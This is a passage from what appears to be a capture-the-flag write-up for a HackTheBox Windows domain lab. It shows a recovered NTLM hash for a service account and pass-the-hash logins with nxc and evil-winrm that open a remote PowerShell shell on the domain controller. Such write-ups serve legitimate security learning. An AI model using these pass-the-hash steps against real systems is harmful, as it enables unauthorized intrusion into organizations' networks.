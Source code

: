 ![alt text](../assets/images/Screenshot_2025-03-12_22_22_27.png)

now we got new user!!!!

management_svc : a091c1832bcdd4677c28b5a6a1295584

```sh
➜  certified nxc winrm DC01.certified.htb -u management_svc -H a091c1832bcdd4677c28b5a6a1295584
WINRM       10.10.11.41     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certified.htb)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.10.11.41     5985   DC01             [+] certified.htb\management_svc:a091c1832bcdd4677c28b5a6a1295584 (Pwn3d!)
```
and we got user.txt
```powershell
➜  certified evil-winrm -i DC01.certified.htb -u management_svc -H a091c1832bcdd4677c28b5a6a1295584
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\management_svc\Documents> cd ..
*Evil-WinRM* PS C:\Users\management_svc> cd Desktop
*Evil-WinRM* PS C:\Users\management_svc\Desktop> dir


    Directory: C:\Users\management_svc\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        3/13/2025   1:37 AM             34 user.txt
```
